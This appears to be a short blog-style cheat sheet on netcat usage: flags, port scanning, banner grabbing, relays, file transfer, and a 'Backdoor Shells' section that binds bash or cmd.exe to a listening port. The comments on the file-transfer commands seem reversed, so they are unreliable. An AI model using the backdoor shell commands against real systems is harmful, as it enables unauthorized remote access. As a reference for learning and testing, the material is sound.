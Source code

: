 ```yaml
---
title: Meow's Testing Tools - netcat
date: 2019-09-17 11:11:11 -0400
categories: [10CyberAttack, CyberAttackTools]
tags: [CyberAttack, CyberAttackTools]
toc: true
image:
---
```


# netcat

[toc]

---

# Netcat Fundamentals

```bash
nc [options] [host] [port]
# by default this will execute a port scan

nc -l [host] [port]
# initiates a listener on the given port

Netcat Command Flags
nc -4
# use IPv4 only

nc -6
# use IPv6

nc -u
# use UDP instead of TCP

nc -k -l
# continue listening after disconnection

nc -n
# skip DNS lookups

nc -v
# provide verbose output
```

### Netcat Relays on Windows

```bash
nc [host] [port] > relay.bat
# open a relay connection

nc -l -p [port] -e relay.bat
# connect to relay
```

### Netcat Relays on Linux
```
nc -l -p [port] 0 (less than) backpipe (pipe) nc [client IP] [port] (pipe) tee backpipe
```

### Netcat File Transfer

```bash
nc [host] [port] (greater than) file_name.out
# send a file

nc [host] [port] (less than) file_name.in
# receive a file
```


### Netcat Port Scanner

```bash
nc -zv site.com 80
# scan a single port

nc -zv hostname.com 80 84
# scan a set of individual ports

nc -zv site.com 80-84
# scan a range of ports
```


### Netcat Banners

```bash
echo “” | nc -zv -wl [host] [port range]
# obtain the TCP banners for a range of ports
```

### Netcat Backdoor Shells

```bash
nc -l -p [port] -e /bin/bash
# run a shell on Linux

nc -l -p [port] -e cmd.exe
# run a shell on Netcat for Windows
```








ref:
- [nmap](https://nmap.org/bennieston-tutorial/)
